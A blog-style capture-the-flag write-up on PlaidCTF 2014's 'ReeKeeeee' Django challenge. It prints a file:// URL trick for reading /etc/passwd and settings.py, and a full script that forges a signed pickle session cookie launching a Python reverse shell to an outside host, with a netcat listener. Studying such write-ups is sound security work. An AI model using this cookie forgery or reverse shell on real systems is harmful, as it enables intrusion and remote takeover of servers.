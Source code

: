```yaml
---
layout: post
title: "PlaidCTF 2014: ReeKeeeee"
date: 2014-04-14 06:46:01 +0000
permalink: /blog/plaidctf-2014-reekeeeee/
category: Security
tags: CTF,PlaidCTF,Security
---
```

ReeKeeeeee was, by far, the most visually painful challenge in the CTF, with a flashing rainbow background on every page.  Blocking scripts was clearly a win here.  Like many of the challenges this year, it turned out to require multiple exploitation steps.

ReeKeeeeee was a meme-generating service that allowed you to provide a URL to an image and text to overlay on the image.  Source code was provided, and it was worth noting that it's a Django app using the <code>django.contrib.sessions.serializers.PickleSerializer</code> serializer.  As the [documentation for the serializer](https://docs.djangoproject.com/en/1.5/topics/http/sessions/) notes, **If the SECRET_KEY is not kept secret and you are using the PickleSerializer, this can lead to arbitrary remote code execution.**  So, maybe, can we get the SECRET_KEY?

#### Getting SECRET_KEY ####
Here's the core of the meme-creation view in views.py:

    try:
      if "http://" in url:
        image = urllib2.urlopen(url)
      else:
        image = urllib2.urlopen("http://"+url)
    except:
      return HttpResponse("Error: couldn't get to that URL"+BACK)
    if int(image.headers["Content-Length"]) > 1024*1024:
      return HttpResponse("File too large")
    fn = get_next_file(username)
    print fn
    open(fn,"w").write(image.read())
    add_text(fn,imghdr.what(fn),text)


Looking at how images are loaded, they are sourced via <code>urllib2.urlopen</code>, then saved to a file, then PIL is used to add text to the image.  If the file is not a valid image type, an exception will be thrown during this phase.  However, **the original file downloaded remains on disk.**  This means we can use the download to source any file and get a copy of it, even though it will be served with the bizarre mimetype image/None.

At first, it appears that only http:// urls are permitted, so we considered that we might be able to source some URL from localhost that might provide us with the application configuration, but we couldn't find any such URL.  I tried building a webserver that sends a redirect to a file:// url, but the Python developers are wise to that.  Then I noticed that it says <code>"http://" in url</code>, which means that it only needs to *contain* http://, but doesn't have to start with that protocol.  So, I began playing around with options to try to use a file:// url, but containing http://.  My first thought was as a username, with something like <code>file://http://@/etc/passwd</code> or <code>file://http://@localhost/etc/passwd</code>, but neither of those worked.  I also tried a query-string like path, with <code>file:///etc/passwd?http://</code>, but that's also just considered part of the filename.  Finally, my teammate Taylor noticed that this construct seems to work: <code>file:///etc/passwd#http://</code>.

Now we needed to find the SECRET_KEY.  Even though we dumped <code>/etc/passwd</code>, and could see users and home directories, we couldn't find settings.py.  It took a few minutes to realize that we could find the directory we were running from by <code>/proc/self/cwd</code>, and based on the provided source, the file was probably at <code>mymeme/settings.py</code>.  Trying <code>file:///proc/self/cwd/mymeme/settings.py#http://</code> for the image URL finally gave us a usable copy of settings.py.

#### SECRET_KEY to flag ####
Given the SECRET_KEY, we can now construct our own session tokens.  Since we're using the pickle session module, we can produce sessions that give us code execution via pickling.  Objects can implement a custom <code>__reduce_\_</code> method that defines how they are to be pickled, and they will be unpickled by calling the relevant "constructor function."  For a general primer on exploiting Python pickling, see [Nelson Elhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/). 

I decide the easiest way to exploit code execution is to use a reverse shell on the box, which can be launched via subprocess.popen.  Since we know python is on the system, but can't be sure of any other tools, I decide to use a python reverse shell.  Here's the script I wrote to construct a new session cookie:

    #!python
    import os
    import subprocess
    import pickle
    from django.core import signing
    from django.contrib.sessions.serializers import PickleSerializer
    
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "mymeme.settings")
    
    class Exploit(object):
      def __reduce__(self):
        return (subprocess.Popen, (
          ("""python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("xxx.myvps.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""),
          0, # Bufsize
          None, # exec
          None, #stdin
          None, #stdout
          None, #stderr
          None, #preexec
          False, #close_fds
          True, # shell
          ))
    
    #pickle.loads(pickle.dumps(Exploit()))
    
    print signing.dumps(Exploit(),
        salt='django.contrib.sessions.backends.signed_cookies',
        serializer=PickleSerializer,
        compress=True)

Running this gives us our new cookie value.  Before I load a page with the cookie, I start a netcat listener with <code>nc -l -p 1234</code> for the shell to connect to.  When I load the page, I see my listener get a connection, and I have a remote shell.  Moving up a directory, I find an executable named something like <code>run_this_for_flag.exe</code> and I run it to get the flag.

#### Conclusion ####
Took an information disclosure + remote code execution via pickle, but just goes to show you how easy it is to escalate a bad use of urlopen to a remote shell.  In fact, had it said <code>url.startswith('http://')</code> instead of <code>'http://' in url</code>, everything would've stopped there.  Small vulnerabilities can lead to big problems.
